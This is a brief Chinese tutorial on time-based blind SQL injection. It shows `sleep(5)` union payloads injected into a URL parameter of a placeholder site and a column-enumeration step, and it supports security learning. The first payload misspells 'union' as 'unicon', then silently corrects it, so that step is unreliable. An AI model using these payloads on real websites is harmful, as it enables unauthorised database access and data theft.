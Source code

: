 # 基于时间的Blind SQLi
一个 基于时间的blind SQLi与基于布尔值的blind SQLi非常相似，因为发送了相同的请求，但是这次的查询是错误还是正确的，我们没有参考指标。相反，我们的正确查询的指示器基于查询所花费的时间完成。

### 例如
```
http://abc/edf/?referrer=jhinjax
```
那么我们可以这样
```
http://abc/edf?referrer=jhinjax123 ' unicon select sleep(5);--
等于
select * from edf where referrer = 'jhinjax123' unicon select sleep(5);-- limit 1;
等于
select * from edf where referrer = 'jhinjax123' union select sleep(5);
```

这样只有暂停了5秒后返回的结果才是查询成功的结果，否则不是
接着我们就可以一步一步枚举了
先枚举列数
```
referrer ='jhinjax123' union select sleep(5),2;--
```
依次类推枚举
枚举过程可查看[基于布尔值的Blind SQLi - 野荷 - 博客园 (cnblogs.com)](https://www.cnblogs.com/jhinjax/p/17258440.html)
只不过多了个sleep(5)罢了，其他的都一样
